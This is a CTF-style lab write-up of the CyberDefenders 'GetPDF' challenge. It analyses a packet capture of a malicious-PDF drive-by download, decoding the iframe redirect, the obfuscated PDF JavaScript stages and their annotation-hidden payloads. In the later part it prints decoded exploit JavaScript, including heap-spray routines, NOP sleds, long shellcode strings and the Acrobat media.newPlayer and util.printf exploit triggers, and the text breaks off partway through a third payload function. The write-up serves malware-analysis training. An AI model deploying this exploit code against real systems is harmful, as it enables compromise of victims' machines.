





# 🕵️‍♀️ GetPDF LAB Write-up 

🔗 Challenge Source: [CyberDefenders GetPDF Lab](https://cyberdefenders.org/blueteam-ctf-challenges/getpdf/) 

# Background

PDF documents are one of the most abused file formats for malware delivery. Many exploit kits generate malicious PDF files that embed JavaScript, shellcode, or hidden file payloads. In this challenge, we analyze network traffic capturing a malicious PDF drive-by download.

A victim visits a compromised webpage. The browser automatically loads a PDF, and an unpatched Acrobat Reader is exploited to download malware silently.

Our job as analysts is to extract the PDF, reverse the JavaScript and shellcode inside it, and trace the dropped malware.


# Scenario

PDF format is the de-facto standard in exchanging documents online. Such popularity, however, has also attracted cyber criminals in spreading malware to unsuspecting users. The ability to generate malicious pdf files to distribute malware is a functionality that has been built into many exploit kits. As users are less cautious about opening PDF files, the malicious PDF file has become quite a successful attack vector.
The network traffic is captured in lala.pcap contains network traffic related to a typical malicious PDF file attack, in which an unsuspecting user opens a compromised web page, which redirects the user’s web browser to a URL of a malicious PDF file. As the PDF plug-in of the browser opens the PDF, the unpatched version of Adobe Acrobat Reader is exploited and, as a result, downloads and silently installs malware on the user’s machine.

As a soc analyst, analyze the PDF and answer the questions.

# Solution

### TL;DR

- Extract files transferred over HTTP from the PCAP
- Analyze malicious JavaScript from a webpage
- Extract and decode embedded PDF JavaScript
- Decode shellcode payloads
- Emulate the shellcode to see what malware it downloads

## 📌 Q1. How many URL path(s) are involved in this incident?


We start with the provided network capture (PCAP). Opening it in Wireshark, we immediately filter for HTTP traffic:

```bash
http
```

We observe multiple HTTP GET requests to:

```bash
blog.honeynet.org.my
```


To count the number of unique URL paths involved in the incident, we review all HTTP GET requests present in the capture.
This tells us how many distinct resources the victim requested from the attacker infrastructure during the interaction.

After examining each entry, we determine that 6 unique URL paths were part of the activity.

✅ **Answer**: 6

## 📌 Q2. What is the URL which contains the JS code?

We inspect the first HTTP GET, right-click: 

````Follow → Follow HTTP stream````

Inside the response body, we find the malicious JavaScript embedded directly inside the script bracket. 


This page serves obfuscated JavaScript that loads the malicious PDF.

✅ **Answer**: http://blog.honeynet.org.my/forensic_challenge/

## 📌 Q3. What is the URL hidden in the JS code?

To analyze the JavaScript, I placed it within java_b.js and executed it with SpiderMonkey, together with objects.js, which define components like objects and methods that malicious javascript scripts might require. 


```bash
remnux@remnux:~/malware$ js -f /usr/share/remnux/objects.js -f java_b.js 
document.write('<iframe scrolling="no" width="1" height="1" border="0" frameborder="0" src="http://blog.honeynet.org.my/forensic_challenge/getpdf.php"></iframe>')
<iframe scrolling="no" width="1" height="1" border="0" frameborder="0" src="http://blog.honeynet.org.my/forensic_challenge/getpdf.php"></iframe>
```
Meaning the JavaScript silently loads the malicious PDF via an iframe.

✅ **Answer**: http://blog.honeynet.org.my/forensic_challenge/getpdf.php

## 📌 Q4. What is the MD5 hash of the PDF file contained in the packet?

Using Wireshark ``File → Export Objects → HTTP``:



We locate fcexploit.pdf:



The file is saved locally. Computing the MD5 hash:

```bash
remnux@remnux:~/malware$ md5sum fcexploit.pdf 
659cf4c6baa87b082227540047538c2a  fcexploit.pdf
```


✅ **Answer**: 659cf4c6baa87b082227540047538c2a

## 📌 Q5. How many object(s) are contained inside the PDF file?


I will use the tool **pdfid.py** to get an overview of the file and malicious keywords that are often present in malicious PDFs.

(-n for only keyword present in the file)

```bash
remnux@remnux:~/malware$ pdfid.py -n fcexploit.pdf 
PDFiD 0.2.8 fcexploit.pdf
 PDF Header: %PDF-1.3
 obj                   19
 endobj                18
 stream                 5
 endstream              5
 xref                   1
 trailer                1
 startxref              1
 /Page                  2
 /JS                    1
 /JavaScript            1
 /OpenAction            1
 /AcroForm              1
 /EmbeddedFile          1
 /XFA                   1

```

Key findings:

- /JS 1: 4 → Contains JavaScript
- /Action 1: 4 → Auto-action in PDF
- /EmbeddedFile 1: 11 → File embedded inside
- /OpenAction 1: 1 → Action runs when PDF opens

This confirms the PDF contains embedded JavaScript, which is commonly used in PDF malware exploits

Obj reprensent the number of object present in the pdf which is  19.


✅ **Answer**: 19

## 📌 Q6. How many filtering schemes are used for the object streams?

To determine how many filters (decoding algorithms) are applied to PDF object streams, we inspect the PDF with pdf-parser.py and filter for /Filter keyword and used -k in oder to shows the values for the corresponding key


```bash
remnux@remnux:~/malware$ pdf-parser.py fcexploit.pdf -k /Filter
  /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
```

We saw than that there is 4 filter in this pdf.

✅ **Answer**: 4

## 📌 Q7. What is the number of the 'object stream' that might contain malicious JS code?

To locate where malicious JavaScript is stored inside the PDF, we start by listing all PDF objects and their types: 

Object 4 is identified as the JavaScript action.
This shows that object 4 is simply a wrapper pointing to object 5, where the actual JavaScript stream is stored.




✅ **Answer**: 5

## 📌 Q8. Analyzing the PDF file. What 'object-streams' contain the JS code responsible for executing the shellcodes? The JS code is divided into two streams. Format: two numbers separated with ','. Put the numbers in ascending order

We observed that /JS and /JavaScript point to Object 4, which in turn references Object 5.
Thus, Object 5 contains the actual JavaScript stream.

We dump Object 5 using filter mode:

```bash
remnux@remnux:~/malware$ python2 /usr/local/bin/pdf-parser.py fcexploit.pdf -o 5 -f
obj 5 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 395
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>

 '\nvar SSS=null;var SS="ev";var $S="";$5="in";app.doc.syncAnnotScan();S$="ti";if(app.plugIns.length!=0){var $$=0;S$+="tl";$5+="fo";____SSS=app.doc.getAnnots({nPage:0});S$+="e";$S=this.info.title;}var S5="";if(app.plugIns.length>3){SS+="a";var arr=$S.split(/U_155bf62c9aU_7917ab39/);for(var $=1;$<arr.length;$++){S5+=String.fromCharCode("0x"+arr[$]);}SS+="l";}if(app.plugIns.length>=2){app[SS](S5);}\n'

```
This reveals a heavily obfuscated JavaScript block acting as a loader:

- It rebuilds function names dynamically (e.g., "ev" + "al" → eval)
- It inspects Acrobat plugin counts (app.plugIns.length) as an anti-sandbox check
- It syncs PDF annotations (app.doc.syncAnnotScan())
- It loads annotation objects (app.doc.getAnnots({nPage:0}))
- It extracts hidden payloads from the PDF Title metadata field (this.info.title)
- It reconstructs and evaluates a second-stage script

Now taking it step by step to understand how object 5 builds the second-stage code:

I use **js-beautify** to beautify the extracted script.

✔ It builds function names dynamically: 

```javascript
var SS = "ev";    // building a method name later (“eval”).
var $5 = "in";    // will become "info"
var S$ = "ti";    // will become "title"
app.doc.syncAnnotScan() //  → Sync annotations in the PDF. Often used to ensure annotations exist before enumeration.
```

Function names like "eval" and property names like "info" and "title" are deliberately split to evade detection.

✔ Checking Acrobat environment
```javascript   
if (app.plugIns.length != 0) {
    S$ += "tl";  // "titl"
    $5 += "fo";  // "info"
    ____SSS = app.doc.getAnnots({ nPage: 0 });
    S$ += "e";  // "title"
    $S = this.info.title;
}
```

This ensures the script only runs inside Adobe Reader and not inside browsers or sandboxes.


They assemble "title" → so $S = this.info.title reads the PDF metadata title.

They call getAnnots() that sync annotations in the PDF. Often used to ensure annotations exist before enumeration.

✔ Decoding the payload stored in the Title metadata:
```javascript
if (app.plugIns.length > 3) {
    SS += "a";  // SS = "eva"
    var arr = $S.split(/U_155bf62c9aU_7917ab39/);
    for (var $ = 1; $ < arr.length; $++) {
        S5 += String.fromCharCode("0x" + arr[$]);
    }
    SS += "l";  // SS = "eval"
}
```

$S contains the title metadata.

The Title field contains hex chunks separated by the marker:
````
U_155bf62c9aU_7917ab39
````
Each fragment is converted from hex → character → appended to the second-stage script stored in S5.


This is classic PDF JavaScript obfuscation.

✔ Executing the second stage
```javascript
app[SS](S5);     // app["eval"](decoded_payload)
```

The first stage is complete.
We now need to locate where the second-stage code pulls its data from.

Now we have to extracte the Title metadata.
We will then get the content of the title object. We see it is refenrecing by object 10. So, we dump object 10 and obtain a long sequence as expected.

```bash
remnux@remnux:~/malware$ pdf-parser.py fcexploit.pdf -k /Title
  /Title 10 0 R
remnux@remnux:~/malware$ pdf-parser.py fcexploit.pdf -o 10
obj 10 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 956
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>


remnux@remnux:~/malware$ python2 /usr/local/bin/pdf-parser.py fcexploit.pdf -o 10 -f
obj 10 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 956
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>

 'U_155bf62c9aU_7917ab395fU_155bf62c9aU_7917ab395fU_155bf62c9aU_7917ab395fU_155bf62c9aU_7917ab395fU_155bf62c9aU_7917ab3953U_155bf62c9aU_7917ab3953U_155bf62c9aU_7917ab393dU_155bf62c9aU_7917ab3931U_155bf62c9aU_7917ab393bU
 [...]62c9aU_7917ab3953U_155bf62c9aU_7917ab3924U_155bf62c9aU_7917ab3929U_155bf62c9aU_7917ab393b'
```

I write a script to decode this content, which yields the second-stage JavaScrip:

```python
#!/usr/bin/env python3

import re

data = """U_155bf62c9aU_7917ab395fU_155bf62c9aU_7917ab395fU_155bf62c9aU_7917ab395fU_155bf62c9aU_7917ab395fU_155bf62c9aU_7917ab3953U_155bf62c9aU_7917ab3953U_155bf62c9aU_7917ab393dU_155bf62c9aU_7917ab3931U_155bf62c9aU_7917ab393bU_155bf62c9aU_7917ab395fU_155bf62c9aU_7917ab395fU_155bf62c9aU_7917ab395fU_155bf62c9aU_7917ab395fU_155bf62c9aU_7917ab3924U
[...]U_7917ab396eU_155bf62c9aU_7917ab392fU_155bf62c9aU_7917ab392cU_155bf62c9aU_7917ab3922U_155bf62c9aU_7917ab3922U_155bf62c9aU_7917ab3929U_155bf62c9aU_7917ab393b"""

MARKER = "U_155bf62c9aU_7917ab39"

parts = data.split(MARKER)

decoded = ""

# skip the first chunk (it's always empty)
for chunk in parts[1:]:
    # remove whitespace/newlines if any
    chunk = chunk.strip()
    # hex must be 1–4 chars here; ignore empty
    if chunk:
        try:
            decoded += chr(int(chunk, 16))
        except:
            decoded += "?"

print(decoded)
```

After extracting the Title object (Object 10) and running my Python decoder script, the decoded output looked like this:

```bash
remnux@remnux:~/malware$ python3 decode.py 
____SS=1;____$5=____SSS[____SS].subject;____$S=0;____$=____$5.replace(/X_17844743X_170987743/g,"%");____S5=____SSS[____$S].subject;____$+=____S5.replace(/89af50d/g,"%");____$=____$.replace(/\n/,"");____$=____$.replace(/\r/,"");____S$=unescape(____$);app.eval(____S$);
```

This corresponds to the second-stage JavaScript, which I re-formatted using js-beautify:

```javascript
____SS = 1;
____$5 = ____SSS[____SS].subject;
____$S = 0;
____$ = ____$5.replace(/X_17844743X_170987743/g, "%");
____S5 = ____SSS[____$S].subject;
____$ += ____S5.replace(/89af50d/g, "%");
____$ = ____$.replace(/\n/, "");
____$ = ____$.replace(/\r/, "");
____S$ = unescape(____$);
app.eval(____S$);
```
This entire block confirms that the second-stage payload is stored inside annotation subjects.

Understanding how the second stage works (line-by-line):

We already know from the first-stage loader that:

```javascript
____SSS = app.doc.getAnnots({ nPage: 0 })
```

So:
- ____SSS is an array of annotations
- ____SSS[0] → annotation #0
- ____SSS[1] → annotation #1


Extract the subject field of annotation #1.
```javascript
____$5 = ____SSS[____SS].subject;
```
This loads the .subject field of annotation #1.

```javascript
____$ = ____$5.replace(/X_17844743X_170987743/g,"%");
```
The subject field of annotation #1 contains a custom marker:

``X_17844743X_170987743``

This marker is replaced with %, turning the string into percent-encoded bytes:

X_17844743X_17098774341X_17844743X_1709877436A → %41%6A → Which decodes to ASCII: "A" "j" ...

Load Annotation #0

```javascript
____$S = 0;
____S5 = ____SSS[____$S].subject;
____$ += ____S5.replace(/89af50d/g, "%");
```

This one is obfuscated differently:

It is padded with the junk token:
``89af50d``

The attacker cuts the payload into hex pairs.
The decoder replaces each junk block with a %, restoring valid URL-encoding:

``89af50d41 89af50d6A 89af50d72 → %41%6A%72...
``

Thus annotation #0 contributes the second half of the malicious JavaScript.

Both recovered strings are concatenated.

Then, combine both Annotation Payloads

And clean, decode and execute the payload:
```javascript
____$ = ____$.replace(/\n/, "");
____$ = ____$.replace(/\r/, "");
____S$ = unescape(____$);
app.eval(____S$);
```

- Remove line breaks
- unescape() creates the actual ASCII JavaScript
- app.eval() runs the fully reconstructed malicious script


### Locating Annotation Objects in the PDF

Running pdf-parser -a reveals all annotations:

```bash
remnux@remnux:~/malware$ pdf-parser.py fcexploit.pdf -a
Comment: 10
XREF: 1
Trailer: 1
StartXref: 1
Indirect object: 18
Indirect objects with a stream: 5, 7, 9, 10, 11
  7: 5, 7, 9, 10, 22, 23, 28
 /Action 1: 4
 /Annot 3: 6, 8, 24
 /Catalog 2: 1, 27
 /EmbeddedFile 1: 11
 /Page 2: 3, 25
 /Pages 2: 2, 26
Unreferenced indirect objects: 1 0 R
Search keywords:
 /JS 1: 4
 /JavaScript 1: 4
 /OpenAction 1: 1
 /AcroForm 1: 27
 /EmbeddedFile 1: 11
 /XFA 1: 28
```

Objects 6 and 8 reference the subjects, which are objects 7 and 9:

```bash

remnux@remnux:~/malware$ python2 /usr/local/bin/pdf-parser.py fcexploit.pdf -o 6 
obj 6 0
 Type: /Annot
 Referencing: 7 0 R

  <<
    /Type /Annot
    /Subtype /Text
    /Name /Comment
    /Rect [ 200 250 300 320 ]
    /Subj 7 0 R
  >>


remnux@remnux:~/malware$ python2 /usr/local/bin/pdf-parser.py fcexploit.pdf -o 8
obj 8 0
 Type: /Annot
 Referencing: 9 0 R

  <<
    /Type /Annot
    /Subtype /Text
    /Name /Comment
    /Rect [100 180 300 210 ]
    /Subj 9 0 R
  >>
```

These are the two annotation streams containing the hidden JavaScript responsible for assembling the exploit payload.


✅ **Answer**: 7,9

## 📌 Q9. The JS code responsible for executing the exploit contains shellcodes that drop malicious executable files. What is the full path of malicious executable files after being dropped by the malware on the victim machine?

After reconstructing the second-stage JavaScript (from annotation streams 7 and 9), we obtain the complete third-stage JavaScript payload. This script contains multiple embedded shellcodes stored inside several unescape("%uXXXX...") blocks.

To analyze these shellcodes, we must extract and decode them.

Python script to decode the third stage:
```python
#!/usr/bin/env python3
import re
import urllib.parse
# ----------------------------------------------------
# OBJECTQ
# ----------------------------------------------------

obj9 = "X_17844743X_17098774376X_17844743X_17098774361X_17844743X_17098774372X_17844743X_17098774320X_17844743X_17098774377X_17844743X_17098774320X_17844743X_1709877433dX_17844743X_17098774320X_17844743X_1709877436eX
[...]7098774338X_17844743X_17098774338X_17844743X_17098774338X_17844743X_17098774338X_17844743X_17098774338X_17844743X_17098774338X_17844743X_17098774338" 

obj7 = "89af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af50d3889af5
[...]
f50d7b89af50d7d89af50d3b." 

# ----------------------------------------------------
# STEP 1 — Replace "X_17844743X_170987743" with "%"
# ----------------------------------------------------

percent_encoded = re.sub(r"X_17844743X_170987743", "%", obj9)

# ----------------------------------------------------
# STEP 2 — Remove "89af50d" from object 7
# ----------------------------------------------------

clean7 = obj7.replace("89af50d", "")

# split into 2-hex-digit bytes
hex_bytes = [clean7[i:i+2] for i in range(0, len(clean7), 2)]

decoded7 = ""
for b in hex_bytes:
    try:
        decoded7 += chr(int(b, 16))
    except:
        decoded7 += "?"   # placeholder for malformed bytes

# ----------------------------------------------------
# STEP 3 — Combine them
# ----------------------------------------------------

combined = percent_encoded + decoded7

# ----------------------------------------------------
# STEP 4 — Decode percent-encodings (ASCII output)
# ----------------------------------------------------

try:
    ascii_decoded = urllib.parse.unquote(combined)
except Exception as e:
    ascii_decoded = "[Decoding error: {}]".format(e)

# ----------------------------------------------------
# OUTPUT 
# ----------------------------------------------------

print(ascii_decoded)

```

Once objects 7 and 9 were decoded by my Python script, the reconstruction produced the full malicious JavaScript:

```javascript
var w = new String();
var c = app;

function s(yarsp, len) {
        while (yarsp.length * 2 < len) {
                yarsp += yarsp;
                this.x = false;
        }
        var eI = 37715;
        yarsp = yarsp.substring(0, len / 2);
        return yarsp;
        var yE = 18340;
}
var m = new String("");

function cG() {
            var chunk_size, payload, nopsled;
            
            chunk_size = 0x8000;
			// calc.exe payload
			payload = unescape("%uabba%ua906%u29f1%ud9c9%ud9c9%u2474%ub1f4%u5d64%uc583%u3104%u0f55%u5503%ue20f%ued5e%uabb9%uc1ea%u2d70%u1953%u3282%u6897%ud01d%u872d%ufd18%ua73a%u02dc%u14cc%u64ba%u66b5%uae41%uf16c%u5623%udb7c%u7bc1%u5e69%u69dd%uf0b0%ucf0c%u1950%udd95%u5ab9%u7b37%u772b%uc55f%u1531%ue18d%u70c8%uc2c5%u4c1c%u7b34%u2f3a%ue82b%u27c9%u848b%ua512%u999d%u2faa%u84c0%u2bee%u768c%u0bc8%u237e%u4cc6%u51c2%u3abc%ufc45%u1118%uffe5%uf48a%udf14%u6c2f%u8742%u0a57%u6fe9%ub5b5%uca94%ua6ab%u84ba%u77d1%u4a2c%u74ac%uabcf%ub25f%ub269%u5e06%u51d5%u90f3%u978f%uec66%u6942%u6a9b%u18a2%u12ff%u42ba%u7be5%ubb37%u9dc6%u5de0%ufe14%uf2f7%uc6fd%u7812%uda44%u7167%u110f%ubb01%uf81a%ud953%ufc21%u22db%u20f7%u46b9%u27e6%ue127%u8e42%udb91%ufe58%ubaeb%u6492%u07fe%uade3%u4998%uf89a%u9803%u5131%u1192%ufcd5%u3ac9%u352d%u71de%u81cb%u4522%u6d21%uecd2%ucb1c%u4e6d%u8df8%u6eeb%ubff8%u653d%ubaf6%u8766%ud10b%u926b%ubf19%u9f4a%u0a30%u8a92%u7727%u96a7%u6347%ud3b4%u824a%uc4ae%uf24c%uf5ff%ud99b%u0ae1%u7b99%u133d%u91ad%u2573%u96a6%u3b74%ub2a1%u3c73%ue92c%u468c%uea25%u5986%u9261%u71b5%u5164%u71b3%u561f%uabf7%u91c2%ua3e6%uab09%ub60f%ua23c%ub92f%ub74b%ua308%u3cdb%ua4dd%u9221%u2732%u8339%u892b%u34a9%ub0da%ua550%u4f47%u568c%uc8fa%uc5fe%u3983%u7a98%u2306%uf60a%uc88f%u9b8d%u6e27%u305d%u1edd%uadfa%ub232%u4265%u2d3a%uff17%u83f5%u87b2%u5b90");
			nopsled = unescape("%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090");
            while (nopsled.length < chunk_size)
                nopsled += nopsled;
            nopsled_len = chunk_size - (payload.length + 20);        
            nopsled = nopsled.substring(0, nopsled_len);
            heap_chunks = new Array();
            for (var i = 0 ; i < 2500 ; i++)
                heap_chunks[i] = nopsled + payload;
 

            util.printd("1.000000000.000000000.1337 : 3.13.37", new Date());
            try {
                media.newPlayer(null);
            } catch(e) {}
            util.printd("1.000000000.000000000.1337 : 3.13.37", new Date());
}
var iF = function() {};

function cN() {
        var o = "o";
		// freecell.exe payload
        var payload = unescape("%uc929%u65b1%ud7db%u74d9%uf424%u83b8%u3830%u5b84%u4331%u0313%u1343%u6883%udacc%u8571%u413d%u6a30%u13f7%ub07d%u5c06%uc249%ube91%u3948%ud6a4%u4246%ud958%uf0e9%ubf3e%ucb93%uf8bc%u520a%u60a7%ubd5e%u804d%ub8b6%ub75a%u5391%uf6b0%ub933%uea10%ubade%u91ba%ud64b%u1fdb%ub411%ub731%u92ab%uf842%u2a7a%ua0b8%uc819%uc7af%u9bee%u7d10%u4e2e%u4201%u8a96%ude7c%ud1cb%u20f0%ue235%uf4e3%u33a8%u6fbe%u8396%u15b9%ub97f%ud56a%u2c92%uf698%ud416%u50c7%u7361%u386d%u1a83%ue308%u7fb1%u7a3f%u20ac%u90a8%u2d99%u544b%u1868%ucced%u8012%u7b51%u7bef%u4d0b%u4095%u10c6%udea5%ue327%u47ed%u9d3e%u28f4%u51cb%ucfd7%u746c%u8c04%u286b%u95cd%u4396%u0b57%u58e2%ue11e%u508a%uab14%uf7cf%uab12%ufb47%u96c3%u9932%ud41d%u3bda%u7d77%uf214%ub242%u636f%u299d%u2962%u7be8%u7fe4%ub283%ub18f%uee39%u7b09%ub7de%ue345%u8c16%u2e59%u59c0%u6fa5%u263f%uda5e%u8219%ua5d1%u54fc%u0474%u75fc%u53b1%u7f0b%u599a%u9409%u48e7%uf318%u71c6%uc930%u6317%u3126%ua923%u2249%ua830%u4247%uad22%u3340%ude7b%u9f86%ue365%u8693%ufdba%u5594%u0f8f%u59bf%u0de8%u74d9%u16ff%ua327%u1cf0%ub333%u021a%uda1c%u2831%u2868%u583f%u1c0a%u720b%u6af0%u8a62%u64fe%u8883%u7ecc%u83ab%u823a%ufd8c%u0ead%u8e59%uc117%u0c8e%u7204%ufeb6%ue3bc%u9a56%u9545%u10c3%u0698%ube7e%ub5ca%u6f07%u2a75%u0a8a%uc717%ub603%u44b8%u59bc%ue62b%uf459%u93d4%u658e%u377a%u14a6%ua20e%ue517%u49c0%u6cd0%u419d");
		this.dN = "";
        var nop = unescape("%u0A0A%u0A0A%u0A0A%u0A0A");
        var hW = new String();
        var heapblock = nop + payload;
        this.qA = "qA";
        var bigblock = unescape("%u0A0A%u0A0A");
        this.alphaY = 12267;
        var headersize = 20;
        var spray = headersize + heapblock.length;
        var jZ = '';
        var jY = "";
        while (bigblock.length < spray) {
                this.r = "r";
                bigblock += bigblock; 
                var edit = "edit";
        }
        this.xGoogle = '';
        this.vY = false;
        var fillblock = bigblock.substring(0, spray);
        var iP = function() {};
        var block = bigblock.substring(0, bigblock.length - spray);
        var googleD = false;
        this.fUEdit = "";
        while (block.length + spray < 0x40000) {
                block = block + block + fillblock;
                this.bJ = '';
        }
        var googleQ = '';
        this.nW = '';
        var mem_array = new Array();  
        var cH = new String();
        var nVO = new String("");
        for (var i = 0; i < 1400; i++) {
                mem_array[i] = block + heapblock;
                var sQ = new String("");
        }
        var wC = '';
        var num = 12999999999999999999888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888;
        this.bC = 3699;
        util.printf("E000f", num);  
}
var eQ = "";

function gX() {
        var basicZ = '';
		// notepad.exe payload
